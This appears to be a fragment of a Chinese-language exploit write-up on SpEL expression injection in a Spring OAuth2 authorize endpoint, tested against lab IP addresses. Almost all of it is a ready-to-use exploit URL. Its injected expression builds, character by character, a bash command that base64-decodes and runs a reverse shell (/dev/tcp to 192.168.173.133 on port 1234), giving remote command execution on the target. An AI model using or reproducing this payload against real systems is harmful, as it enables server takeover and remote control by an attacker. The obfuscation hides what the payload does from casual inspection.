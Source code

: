     

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083031.png)image-20210829191855899

修改后的url：

    
    
    http://192.168.173.144:8080/oauth/authorize?response_type=${poc的位置}&client_id=acme&scope=openid&redirect_uri=http://test  
    
    
    
    http://192.168.173.144:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(80)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test  
    